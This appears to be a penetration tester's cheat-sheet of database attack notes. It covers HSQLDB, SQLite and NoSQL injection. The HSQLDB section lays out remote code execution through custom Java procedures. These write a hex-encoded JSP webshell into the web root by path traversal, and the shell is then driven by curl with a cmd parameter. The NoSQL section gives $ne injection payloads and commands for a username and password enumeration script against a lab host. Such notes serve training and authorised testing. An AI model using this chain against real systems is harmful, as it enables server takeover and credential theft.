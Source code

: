 ## HSQLDB:
	Download .jar and connect:  java -cp hsqldb.jar org.hsqldb.util.DatabaseManagerSwing --url jdbc:hsqldb:hsql://abc:9001/app --user abc --password abc
	RCE - calling Java code via custom procedures:
		ex. Checking system properties:
                    CREATE FUNCTION systemprop(IN key VARCHAR) RETURNS VARCHAR 
                     LANGUAGE JAVA 
                     DETERMINISTIC NO SQL
                     EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
                    Call it:  VALUES(systemprop('java.class.path'))
		Use Function in the App's Class Path (ex. a write file function):
                    CREATE PROCEDURE writeBytesToFilename(IN paramString VARCHAR, IN paramArrayOfByte 
                    VARBINARY(1024)) 
                     LANGUAGE JAVA 
                    DETERMINISTIC NO SQL
                     EXTERNAL NAME 
                    'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
                    Convert payloads to ascii hex, then call:
                        call writeBytesToFilename('test.txt', cast ('497420776f726b656421' AS VARBINARY(1024)))
                    RCE Options:
                        write JSP webshell and access in browser
                    Write Webshell (/usr/share/webshells/jsp/cmdjsp.jsp):
                        convert to Linux; make smaller by removing html; encode to hex
                        call writeBytesToFilename('../../apache-tomee-plus-7.0.5/apps/abc/shell.jsp', cast('ABC...' as VARBINARY(1024)))
                        ACCESS:  curl http://abc:8080/abc/shell.jsp?cmd=hostname

## SQLite Commands:
    
    .help
    .databases
    .tables
    .echo ON|OFF
    Dump:
        .mode csv
        .headers on
        .output <outfile>
        select * from <table>;
    .dump [tablename]
    .exit

## NOSQL Injection:  

	in burp, try: username[$ne]=..., password[$ne]=...
	https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
	If injection succeeds, enumerate accounts with: https://raw.githubusercontent.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/master/nosqli-user-pass-enum.py
	python3 mangoenum.py -u http://staging-order.mango.htb/ -up username -pp password -op login:login -ep username
		then: python3 mangoenum.py -u http://staging-order.mango.htb/ -up username -pp password -op login:login -ep password
